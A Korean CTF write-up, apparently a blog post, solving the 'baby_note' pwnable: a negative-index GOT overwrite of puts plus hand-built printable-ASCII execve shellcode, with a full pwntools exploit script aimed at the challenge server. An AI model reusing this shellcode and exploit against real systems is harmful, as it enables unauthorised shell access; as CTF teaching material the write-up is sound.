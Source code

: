 최근에 매주 월요일마다 pwnable 문제를 풀려고 하고 있는데, 친구가 이 문제를 풀어보라고 해서 풀어봤다. 처음에 뭔가 잘 보여서 쉽게 끝나나 했는데 아니었다ㅠㅠ.

내가 문제 풀려고 ida부터 키니까 `checksec`부터 하라고 훈수를 뒀다.
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
PIE가 꺼져있고, Full RELRO가 아니다. GOT를 덮어씌울 수 있을 것 같다.

GOT를 어떻게 덮어씌울 것인지 생각해보라 그랬다. 그래서 우리가 입력 넣어주는 부분을 찾아보니 `add_note`함수가 있다.

### add_note 함수 :

![](https://images.velog.io/images/bgeunjo/post/07569ece-3e53-4c90-8bee-e6fdc2d29e17/KakaoTalk_20200908_054454698.png)

`int`형에 Index를 입력받아서 음수의 인덱스도 참조가 가능하다. 그리고 내가 입력한 문자열(Name)을 `strdup()`을 사용해 heap에 복사해주고, 그 주소를 `note[v1]`에 써준다.

🤔 `note`변수는 전역 변수라서 `bss`영역에 있다. `bss`영역보다 좀 더 작은 주소에 `got`영역이 있다.

![](https://images.velog.io/images/bgeunjo/post/ec37a06d-25f0-49c5-8eae-0f05cd9d3efd/KakaoTalk_20200908_055258561.png)

`note`변수의 주소가 `0x0804a060`이다.
![](https://images.velog.io/images/bgeunjo/post/4c9000cc-e43f-41dc-9780-1a3f54388c6d/KakaoTalk_20200908_055306475.png)

`got`영역의 주소가 `0x0804a0~`이다.

❗ Index는  (`note` - 원하는 함수(`puts`)의 `got` ) / 4로 해주면 될 것 같다. 4를 나눠주는 이유는 `v1`이 `int`라서 index * 4 만큼 주소가 커지거나 작아지기 때문이다
- 근데 / 2 해줬음.. 그래야 맞게 들어가던데 왜 그런지는 잘 모르겠다.

그럼 이제 `puts()'s got`에는 `strdup()`에 의해 내가 쓴 문자열이 복사된 곳의 주소(`heap`)가 쓰이게 된다. 그럼 내가 쓴 문자열(명령어)이 실행이 되는 것이다.

그래서 쉘코드를 쓰려고 하는데 넣을 수 있는 문자에 제한이 걸려있다.

![](https://images.velog.io/images/bgeunjo/post/e62e817c-262b-4628-976d-901206ef1598/KakaoTalk_20200908_055727963.png)

아스키코드 범위 `0x20` ~ `0x7e`의 값만 쓸 수 있다. 그래서 Ascii shellcode를 검색해서 쓰려고 하는데 잘 안된다.. 여기서 시간을 되게 많이 썼다.

🤔 우리가 평소에 쓰는 쉘코드(`shellcraft.sh()`)는 `execve(path='/bin///sh', argv=['sh'], envp=0)` 이다. `argv`는 `NULL`이 되어도 된다. 

❗ 이제 해야할 일이 정해졌다! 
- `syscall(int 80)`을 이용해 `execve`를 호출할 것이기 때문에 `syscall` 호출 규약에 맞게 인자를 세팅해준다.
- `syscall_table`을 참고하면 `execve`는 `eax=11`일 때 실행 된다.

### 쉘코드 작성

쉘코드를 작성해보자.

```
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx      
    push 0x31
    pop eax
    xor al,0x31
    dec eax
    xor ax,0x3f50
    xor ax,0x4062
    push eax
    pop edi                               
    push 0x3b    
    pop eax
    xor al,0x30
    push edx
    pop esi
    push ecx
    pop edx
    push edx
    pop edx
    push edx
    pop edx
    push edx
    xor [esi+0x30],di
```

처음부터 ㅂㅂㅈ ㅂㅂㅈ~ 🚀

```
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
```
문자열 `/bin///sh`를 스택에 푸쉬해준다. `/bin/sh`가 아니라 `/bin///sh`를 쓴 이유가 뭘까?
- `/bin/sh`를 쓰게 되면 `push 0x68732f`를 하게 된다. 즉 opcode에 `0x00`이 포함되게 되어, 허용되는 아스키코드 범위를 벗어난다.
- `/bin//sh`를 해주게 되면 `push 0x68732f2f`를 하게 되는데, 끝에 `NULL`이 없어 내가 원치 않는 문자열까지 뒤에 연결되게 된다.

```
    push esp
    pop ebx
```
`ESP`는 현재 `/bin///sh`를 가리키고 있다. 그 문자열의 주소를 `EBX`에 넣어준다. `syscall`의 매개변수 세팅을 위해서다.


```
    push 0x31
    pop eax
    xor al,0x31
    dec eax
    xor ax,0x3f50
    xor ax,0x4062
    push eax
    pop edi   
```

`EAX`를 0으로 세팅한 후, 1을 감소시켜서 `0xffffffff`로 만든다. 가장 만드는데 골치 아픈 `0x80cd`(int 0x80=`syscall`) opcode를 편하게 만들기 위해 1을 다 on 시켜준 것이다. 그리고 적당한 값을 xor해서 `0x80cd`를 만들어준다. `xor eax, ~`는 허용되는 아스키코드 범위를 넘어가는 opcode를 만들기 때문에 `xor ax, ~`로 해준다. 
그렇게 만든 값을 `edi`에 넣어준다. `eax`는 이 후에도 써야 하는데, `edi`는 쓰이는 곳이 없기 때문이다.

```
    push 0x3b    
    pop eax
    xor al,0x30
````

`execve()`를 호출하기 위해서는 `syscall`할 때 `eax=11`이어야 하기 때문에, 세팅해준다.

```
    push edx
    pop esi
    push ecx
    pop edx
```

`puts()`를 실행시키는 시점에 `edx`는 내가 쓴 문자열의 시작주소(`heap`)를 가리키고 있다.
근데 `syscall` 매개변수 세팅해줄 때 `edx=0`을 맞춰줘야 하기 때문에 `esi`에 넣어놓고, 이미 0이었던 `ecx`를 이용해 `edx`를 0으로 만든다.(이거 까먹어서 욕먹음 ㅠ)

``` 
    push edx
    pop edx
    push edx
    pop edx
    push edx
    xor [esi+0x30],di
```
`xor [esi+0x30],di`에서 `0x30`은 내가 입력한 명령어의 총 길이다. 문자열(명령어)이 끝나는 곳에 `0x80CD`를 넣어준다.
마지막에 `push edx pop edx` 들은 길이를 맞춰주려고 아무거나 넣은거다. 걍 아스키코드 범위에 들어가는 거 아무거나 써도 된다. 길이를 안 맞춰주니까 내가 쓴 문자열 + a 에 이미 쓰여진 값이 있었는데, 그 값에 영향을 받아 원하는 값이 안 들어갔다. 

![](https://images.velog.io/images/bgeunjo/post/a9b97bed-28fe-4794-a520-658cf7665e5f/baby_note3.PNG)

`xor [esi+0x30],di`을 실행하는 시점의 레지스터 상태이다. `syscall`의 매개변수로 쓰이는 `ecx`,`edx`는 0으로 세팅되어 있고 `ebx`는 `/bin///sh`를 주소를 담고 있다.
`syscall_table`에서 `execve()`에 해당하는 11(`0xb`)가 `eax`에 세팅되어 있다. `edi` 중에서 `di`부분만 보면 `0x80cd(int 0x80)`로 세팅되어 있다.

![](https://images.velog.io/images/bgeunjo/post/110ae669-66df-48db-8e8c-69c6956f833b/baby_note2.PNG)

마지막 명령어를 실행하고 나면 위치에 딱 맞게 `int 0x80`이 들어간 것을 확인할 수 있다. 이제 저 명령어(`syscall`)를 실행해주면 쉘이 따진다!

### Exploit code

``` python
from pwn import *
import sys

if len(sys.argv) != 2:
    log.info("try options -l for local, -r for remote")
    exit()
if sys.argv[1].strip()=='-l':
    p=process('./baby_note')
elif sys.argv[1].strip()=='-r':
    p=remote("srv.cykor.kr",31009)

#context.log_level='debug'
e=ELF('./baby_note')

bss=e.bss()
puts_got=e.got['puts']
offset=(puts_got-bss)/2

shellcode="""
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx      
    push 0x31
    pop eax
    xor al,0x31
    dec eax
    xor ax,0x3f50
    xor ax,0x4062
    push eax
    pop edi                               
    push 0x3b    
    pop eax
    xor al,0x30
    push edx
    pop esi
    push ecx
    pop edx
    push edx
    pop edx
    push edx
    pop edx
    push edx
    xor [esi+0x30],di
"""
shellcode=asm(shellcode)
log.info("shellcode Length: "+str(hex(len(shellcode))))
log.info(shellcode)

#gdb.attach(p)
p.recvuntil("Your choice :")
p.sendline("1")
p.recvuntil("Index :")
p.sendline(str(offset))
p.recvuntil("Name :")
#raw_input()
p.sendline(shellcode)
#raw_input()
p.interactive()
```

![](https://images.velog.io/images/bgeunjo/post/39c971db-d3e5-4a04-abe2-84b06ae0490d/shell.PNG)